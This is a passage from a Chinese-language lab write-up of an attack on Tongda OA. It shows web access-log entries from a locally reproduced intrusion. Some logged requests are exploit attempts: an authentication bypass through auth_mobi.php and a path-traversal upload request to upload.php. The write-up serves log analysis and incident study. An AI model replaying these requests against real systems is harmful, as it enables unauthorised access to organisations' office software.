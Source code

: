 Step 4：日志记录查看  
[![image.png](assets/1698894058-9c823690681d78c05d85dfb965024f89.png)](https://storage.tttang.com/media/attachment/2022/11/15/d2b29f31-0076-4d2e-bc32-e5fa70385fc9.png)

[![image.png](assets/1698894058-339d21a25c30e2a2ef5c1ac29a6daff6.png)](https://storage.tttang.com/media/attachment/2022/11/15/0b5604a7-52cb-4844-84b3-6edbf3c8a0dd.png)

简易记录裁取如下 (由于这里我们再现环境时使用的是本地构建的环境，所以攻击 IP 地址源自我们本地的局域网地址，但是整个流程与云上搭建一样，这里只不过就是少了一个域名注册的点，而这也是一个坑点)：

```bash
192.168.17.1 - - [15/Nov/2022:10:27:09 -0500] "GET / HTTP/1.1"200 4140 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:09 -0500] "GET /static/images/tongda.ico HTTP/1.1"200 894 "http://oa.aaa.com/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:31 -0500] "GET //inc/expired.php HTTP/1.1"200 2840 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:31 -0500] "GET //ispirit/login_code.php HTTP/1.1"200 251 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:32 -0500] "GET //general/ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:32 -0500] "GET //mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:33 -0500] "GET //general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:33 -0500] "GET //ispirit/login_code.php HTTP/1.1"200 251 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //general/ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
```